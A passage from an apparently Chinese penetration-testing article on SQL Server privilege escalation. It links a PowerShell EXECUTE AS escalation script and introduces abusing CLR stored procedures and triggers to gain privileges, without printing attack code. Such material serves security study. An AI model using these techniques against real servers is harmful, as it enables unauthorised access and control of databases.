当然这个也可以用 powershell 一键实现：[脚本地址](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1)

## [](#6-clr-%E6%8F%90%E6%9D%83)6 CLR 提权

通过回顾常见的手法，可以看出，在目标系统该做安全防护都做了的情况下，除了备份拿 shell 之外，其它的操作均需要 sysadmin 服务器角色。

对于部分常见手法的防护，网上提出了一些极端的修复方法，比如将存储过程和其相关的 DLL 文件删除，其它功能可能删除，但是删除 CLR 可能性应该不大，且不论禁用或者删除 .net 之后 SQL Server 还能不能正常运行，SQL CLR 功能强大，开发也可能使用它开发正常功能，删除无异于自废武功。

### [](#61-sql-server-clr-%E4%BB%8B%E7%BB%8D)6.1 SQL Server CLR 介绍

> 公共语言运行库(Common Language Runtime，CLR)是整个 .NET 框架的核心，它为 .NET 应用程序提供了一个托管的代码执行环境。它实际上是驻留在内存里的一段代理代码， 负责应用程序在整个执行期间的代码管理工作，比较典型的有：内存管理、线程管理、安全管理、远程管理、即使编译、代码强制安全类检查等，这些都可以成为 .NET 框架的生命线。

通俗来讲 CLR 就是 .NET 程序运行的基础。

**SQL Server 中的 CLR**

SQL CLR 是 SQL Server2005 出现的新功能，它将 .NET Framework 中的 CLR 服务注入到 SQL Server 中，让 SQL Server 的部分数据库对象可以使用 .NET Framework 的编程语言进行开发(目前只支持VB.NET和C#)，包括存储过程、用户自定义函数、触发器、 用户自定义类型以及用户自定义聚合函数等功能。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210121100247.png-water_print](assets/1699408935-7adceb6330a6082431345e3742d0c3a9.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210121100247.png-water_print")

SQL Server 的 CLR 让我们可以用 C# 或者 VB 开发存储过程、用户自定义函数、触发器、用户自定义类型以及用户自定义聚合函数。但是我们最容易利用的是存储过程和触发器。触发器有 DDL 触发器和 DML 触发器两种，DDL 触发器对应的语句语句主要以 CREATE、ALTER 和 DROP 开头，DML 触发器对应的语句主要是 INSERT、UPDATE 或 DELETE，相比而言 DML 触发器更可控。

参考：

-   [https://xz.aliyun.com/t/8195](https://xz.aliyun.com/t/8195)
-   [https://github.com/aleenzz/MSSQL\_SQL\_BYPASS\_WIKI](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)
-   [SQL Server的CLR在渗透测试中的应用](https://data.hackinn.com/ppt/HackingDay2020online/SQL%20Server%e7%9a%84CLR%e5%9c%a8%e6%b8%97%e9%80%8f%e6%b5%8b%e8%af%95%e4%b8%ad%e7%9a%84%e5%ba%94%e7%94%a8.pdf)
